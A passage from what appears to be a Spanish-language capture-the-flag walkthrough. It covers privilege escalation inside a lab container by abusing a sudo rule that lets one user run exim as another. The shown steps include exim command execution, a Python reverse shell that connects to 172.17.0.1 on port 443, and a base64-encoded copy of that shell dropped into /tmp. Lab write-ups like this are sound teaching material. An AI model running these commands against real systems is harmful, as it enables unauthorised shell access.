 Entendiendo cada parte del payload, estaríamos ejecutando una `sh` en el valor de entrada del script. 

- Para volver a una consola de `bash`, simplemente escribimos `bash`


## Sudoers Privileges - `exim`

Listaremos los privilegios `sudo` que tenemos asignados para el usuario actual

~~~ bash
maci@5c050710a415:~$ sudo -l

Matching Defaults entries for maci on 5c050710a415:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User maci may run the following commands on 5c050710a415:
    (pepe) NOPASSWD: /usr/sbin/exim
~~~

Podemos ejecutar `exim` como el usuario `pepe`, por lo que podemos intentar ejecutar `bash` como este usuario, para ejecutar algún comando a través de `exim`, podemos hacerlo mediante el siguiente comando

~~~ bash
exim -be '${run{/usr/bin/id}}'
~~~

Crearemos un recurso que nos envíe una consola como el usuario `pepe`. Para esto, podemos hacer uso de un pequeño script que envíe un socket con `python3`

 ~~~ python
import socket, subprocess, os, pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")
 ~~~

Enviaremos esto a un archivo `privesc` en el directorio `/tmp`, lo haremos de la siguiente manera

~~~ bash
maci@5c050710a415:/var/www/html/pruebasUltraSecretas$ echo "aW1wb3J0IHNvY2tldCwgc3VicHJvY2Vzcywgb3MsIHB0eQpzID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCIxNzIuMTcuMC4xIiwgNDQzKSkKb3MuZHVwMihzLmZpbGVubygpLCAwKQpvcy5kdXAyKHMuZmlsZW5vKCksIDEpCm9zLmR1cDIocy5maWxlbm8oKSwgMikKcHR5LnNwYXduKCIvYmluL2Jhc2giKQ==" | base64 -d > /tmp/privesc.py && chmod +x /tmp/privesc.py
~~~ 

### Shell as `pepe`

Nos ponemos en escucha con `nc` por el puerto `443` para recibir la `shell`
